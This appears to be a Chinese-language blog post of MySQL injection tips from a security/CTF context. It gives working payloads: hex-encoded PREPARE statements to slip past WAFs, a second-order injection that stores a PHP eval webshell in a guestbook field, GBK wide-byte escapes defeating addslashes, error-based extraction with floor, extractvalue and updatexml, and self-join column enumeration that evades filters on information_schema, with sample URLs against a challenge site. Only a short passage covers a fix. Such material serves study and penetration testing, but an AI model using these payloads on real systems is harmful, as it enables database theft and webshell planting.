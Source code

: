```yaml
---
layout: post
title: mysql注入tips
categories: sql注入
tag: tips
---
```


## mysql pdo  支持多句执行
比如where后面还能不能update数据，显然我们只需用;闭合第一条SQL语句，在第二条SQL语句里update就行了。
WAF拦截特殊符号及select关键字的问题，我们使用prepare语法：  
`prepare a from 0x73656c656374202a2066726f6d206d7973716c2e757365723b;execute a;` 将需要执行的任意SQL语句用hex编码，prepare后执行即可。

---

## 二次注入
register.php
```
$username = htmlspecialchars(filter($username));
$password = md5($password);
$name = htmlspecialchars(filter($name));
$limit = filter($limit);
$sql = "select uid from users where username = '$username'";
$result = mysql_query($sql);
if($row = mysql_fetch_array($result))
{
  header("location:register.php");exit;
}
$sql = "insert into users(`username`,`password`,`name`,`limit`) values('$username','$password','$name','$limit');";
$result = mysql_query($sql);
if($result)
{
  header("location:login.php");exit;
}
```
```
让message字段入库的时候以16进制写进数据库，只要是没有单引号包裹的16进制最后入库都会还原成原本的字符串。aa’,0x3c3f70687020406576616c28245f504f53545b615d293b3f3e)#

其中16进制是一句话的hex编码。这样的话 我们执行 insert into guestbook(`uid`,`name`, `message`) values('".$uid."','".$name."','".$message."')
```
![](/styles/images/2017/1d0e7787d7cd2ea151106fcebaa9a665.png)
![](/styles/images/2017/cc45911e8825d1f1e85c7fb1737cd63d.png)

```
#之后的被注释，0x3c3f70687020406576616c28245f504f53545b615d293b3f3e就是字段message的值，而且是没有单引号包裹的。所以当我们执行了insert操作之后。message字段的值就是<?php eval($_POST[a]);?>了
```
```
function filter($input)
{
  return $input;
}
foreach(array('_GET','_POST','_COOKIE') as $key){
    foreach($$key as $k =&gt; $v){
        if(is_array($v)){
            errorBox("hello,sangebaimao!");
        }else{
            $k[0] !='_'?$$k = addslashes($v):$$k = "";
        }
    }
}
所以所有参数的单引号，双引号，反斜杠被转义为:\' \" \\，但是带入sql语句执行后的结果就是各参数的值都被原样保留了下来。
name和username中的&,",',<,>被转换成HTML实体代码&成为&amp;"成为&quot;'成为';<成为 &lt;>成为&gt;</li>
```
二次注入点  limit 后
```
$name = $_SESSION['users'];
$uid = $_SESSION['uid'];
$num = $_SESSION['limit'];
$message = htmlspecialchars(filter($message));
$sql = "insert into guestbook(`uid`,`name`, `message`) values('".$uid."','".$name."','".$message."');";
$result = mysql_query($sql);
if($result)
  {
    header("location:main.php");
  }
$sql = "select id,name,message from guestbook where uid=".$uid." order by id desc limit 0,".$num.";";  
$result = mysql_query($sql);
```

---
## 宽字节

宽字节注入原理
有三种形式：
（1）情景一：在PHP中使用mysql_query(“set names GBK”);指定三个字符集（客户端、连接层、结果集）都是GBK编码。
情景代码： 
```
mysql_query(“set names GBK”);
$bar = addslashes($_GET[‘bar’]) ;
$sql = “select password from user where bar=’{$bar}’”;
$res = mysql_query($sql) ;
```

提交：`http://127.0.0.1/foo.php?bar=admin%df%27`
这时，发生如下转换：
`%df%27=====(addslashes)======>%df%5c%27======(GBK)======>運’`
带入sql为：
`Select password from user where bar=‘運’`
成功将单引号闭合。为了避免漏洞，网站一般会设置UTF-8编码，然后进行转义过滤。但是由于一些不经意的字符集转换，又会导致漏洞。
 
（2）情景二：
使用set names UTF-8指定了UTF-8字符集，并且也使用转义函数进行转义。有时候，为了避免乱码，会将一些用户提交的GBK字符使用iconv函数（或者mb_convert_encoding）先转为UTF-8，然后再拼接入SQL语句。
情景代码：
```
mysql_query(“set names UTF-8”) ;
$bar =iconv(“GBK”,”UTF-8”, addslashes($_GET[‘’bar])) ;
$sql = “select password from user where bar=’{$bar}’” ;
$res = mysql_query($sql) ;
```
我们可以看到，为了使得SQL语句中的字符集保持一致，一般都会使用iconv等字符集转换函数进行字符集转换，问题就是出在了GBK向UTF-8转换的过程中。
提交：`http://127.0.0.1/foo.php?bar=%e5%5c%27`
变换过程：（e55c转为UTF-8为e98ca6）
`e55c27====(addslashes)====>e55c5c5c27====(iconv)====>e98ca65c5c27`
可以看到，多出了一个5c，将转义符（反斜杠）本身转义，使得后面的%27发挥了作用。
测试如下：



（3）情景三：使用iconv进行字符集转换，将UTF-8转为GBK，同时，set names字符集为GBK。提交%e9%8c%a6即可。
这个情景的大前提是先编码后转义：
`e98ca6====(iconv)=====>e55c=====(addslashes)====>e55c5c`
同样可以多出一个反斜杠进行利用，在此不再详述，因为漏洞条件比较苛刻。
 
 
6、安全方案
对于宽字节编码，有一种最好的修补就是：
（1）使用mysql_set_charset(GBK)指定字符集
（2）使用mysql_real_escape_string进行转义
原理是，mysql_real_escape_string与addslashes的不同之处在于其会考虑当前设置的字符集，不会出现前面e5和5c拼接为一个宽字节的问题，但是这个“当前字符集”如何确定呢？
就是使用mysql_set_charset进行指定。
上述的两个条件是“与”运算的关系，少一条都不行。



### 报错
**利用floor**

    mysql> select * from article where id = 1 and (select 1 from  (select count(*),concat(version(),floor(rand(0)*2))x from  information_schema.tables group by x)a);
    ERROR 1062 (23000): Duplicate entry ’5.1.33-community-log1′ for key ’group_key’


我的注释：通过floor报错的方法来爆数据的本质是group  by语句的报错。group by语句报错的原因是floor(random(0)*2)的不确定性，即可能为0也可能为1（group by  key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中则更新临时表中的数据；如 果该key不存在于临时表中，则在临时表中插入key所在行的数据。group by  floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能 为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时 floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值。

**利用ExtractValue**

    select * from article where id = 1 and extractvalue(1, concat(0x5c,(select pass from admin limit 1)));–

ERROR 1105 (HY000): XPATH syntax error: ’\admin888′
我的注释：extractvalue()函数有两个参数，在实际注入时第一个参数设为1，
第二个参数就是需要爆的数据，如 extractvalue(1,
concat(0x5c,version()))。同样，在使用中会遇到如下面UpdateXml()类似的相同问题，即果在爆的数据前不连接其他字符可
能会显示不完全。即获取版本号时，第二个参数不能为version(),而应改为concat(0x5c,version())

    http://sql.sycsec.com/f8077f08525d33bd7f0b1fd98b53dc59/index.php?uid=1%bf'and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables where table_schema=0x77696b69 limit 1)))%23
    http://sql.sycsec.com/f8077f08525d33bd7f0b1fd98b53dc59/index.php?uid=1%bf'and extractvalue(1, concat(0x5c, (select key_flag from `[key_flag]` limit 1)))%23

**利用UpdateXml**
测试语句

    and 1=(updatexml(1,concat(0x3a,(select user())),1))

实际测试过程

    mysql> select * from article where id = 1 and 1=(updatexml(0x3a,concat(1,(select
     user())),1))ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’

我的注释：UpdateXml()函数有三个参数，在实际渗透时第一个和第三个参数直接写1即可，第二个参数就是需要爆出的内容，要爆出不同的内容直接修改第二个参数即可。但是在实际使用时注意一个问题：即爆错的内容可能显示不完整。





**5、join报错注入**
利用表自己join自己。来达到列名相同来爆列名。参考文章：http://www.2cto.com/Article/201105/90933.html（绕过ids过滤information_schema接续灌注）。
下面以爆mysql.user表为例爆字段名的过程：

    （1）爆第一个列名
    select * from(select * from mysql.user a join mysql.user b)c;

    （2）爆第二个列名（使用using）
    select * from(select * from mysql.user a join mysql.user b using(Host))c;

    （3）爆第三列名（还是使用using，参数是前两个列的列名）
    select * from(select * from mysql.user a join mysql.user b using(Host,User))c;

    依次类推，只要修改语句的using即可。
    下面是使用join绕过ids的过程（ids过滤了information_schema）利用过程：
    先本地构造测试表
    create table users(id int,name varchar(20),passwd varchar(32));
    insert into users value(1,’mickey’,’827ccb0eea8a706c4c34a16891f84e7b’);
    create table news(is_admin int(1),id int(2),title varchar(100),date date);
    insert into news values(1,1,’hello mickey’,now());

    (1)爆列名
    mysql> select *  from(select * from users a join users b)c;

    mysql> select *  from(select * from users a join users b using(id))c;
    mysql> select *  from(select * from users a join users b using(id,name))c;

    (2)爆数据
    select *  from(select * from users a join users b using(id,name,password))c
